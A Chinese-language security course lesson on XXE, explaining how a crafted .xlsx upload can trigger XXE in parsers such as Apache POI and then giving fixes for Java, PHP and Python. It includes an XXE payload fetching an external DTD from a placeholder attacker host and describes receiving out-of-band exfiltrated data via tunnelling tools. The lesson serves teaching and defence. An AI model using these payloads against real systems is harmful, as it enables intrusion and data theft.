# 课程 P34：第32天 - XXE漏洞修复及思路 🔧


在本节课中，我们将学习XXE漏洞的修复方法，并了解一种通过上传Excel文件触发XXE漏洞的特殊利用场景。课程内容将涵盖修复方案、代码示例以及一个实战演示。

## 概述：XXE漏洞修复与Excel利用场景

本节课是XXE课程的最后一节。我们将首先介绍一种在Java中通过上传Excel文件（.xlsx格式）触发XXE漏洞的利用方式，这在近期的CTF比赛中出现过。随后，我们将重点讲解在不同编程语言中修复XXE漏洞的标准方案。


## 通过上传Excel文件触发XXE漏洞 📁

如果网站存在文件上传功能，并且支持上传Excel（.xlsx）格式文件，则可能存在XXE漏洞。

其利用过程如下：
1.  新建一个Excel文件，将其后缀名改为`.zip`。解压后会发现它由多个XML文件组成。
2.  修改解压后文件中的 `[Content_Types].xml` 文件内容。
3.  在文件中插入包含外部实体声明的DTD和实体引用。
4.  将修改后的文件重新压缩为`.zip`，再改回`.xlsx`后缀。
5.  上传该文件。如果服务器后端使用存在漏洞的组件（如Apache POI）解析此Excel文件，就会解析我们插入的恶意XML，并向我们指定的地址发起请求。

以下是插入 `[Content_Types].xml` 的恶意内容示例：
```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE test [
<!ENTITY % remote SYSTEM "http://攻击者IP:端口/evil.dtd">
%remote;
]>
```
当服务器解析该文件时，会访问`http://攻击者IP:端口/evil.dtd`，从而证明漏洞存在。




## XXE漏洞修复方案 🛡️

上一节我们介绍了一种特殊的XXE利用方式，本节中我们来看看如何从根本上修复XXE漏洞。修复的核心思路是禁用XML解析器对外部实体的加载。

以下是不同语言中的修复方法：


### Java 中的修复

在Java中，通过设置解析器的相关属性来禁用外部实体。

```java
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
```

### PHP 中的修复

在PHP中，使用`libxml_disable_entity_loader`函数来禁用实体加载器。





```php
libxml_disable_entity_loader(true);
```







### Python 中的修复









在Python的`lxml`库中，通过设置`resolve_entities`参数为`False`来修复。






```python
from lxml import etree
parser = etree.XMLParser(resolve_entities=False)
tree = etree.parse(xml_source, parser)
```


**注意**：不推荐仅通过过滤用户输入的关键字（如`<!DOCTYPE`、`<!ENTITY`、`SYSTEM`、`PUBLIC`等）来防御，这种方法可能存在被绕过的风险。上述禁用外部实体加载的方法更为有效和安全。


## 无回显漏洞利用中的外网连接问题 🌐




在利用无回显XXE漏洞外带数据时，需要一个能让目标服务器访问到的公网地址来接收数据。




如果你没有自己的服务器，可以使用一些内网穿透工具（如ngrok、natapp等）来获得一个临时的公网域名，并将请求转发到本地开启的服务（如Tomcat）上，从而查看外带出来的日志信息。










## 总结与作业 📝


本节课我们一起学习了XXE漏洞的修复方案，并了解了一种通过上传Excel文件触发XXE的利用场景。核心修复方法是**在代码中禁用XML解析器的外部实体加载功能**。





**课后作业**：
请完成靶场中关于XXE漏洞的相关挑战（包括有回显和无回显两种场景），目标是通过漏洞利用成功登录系统。

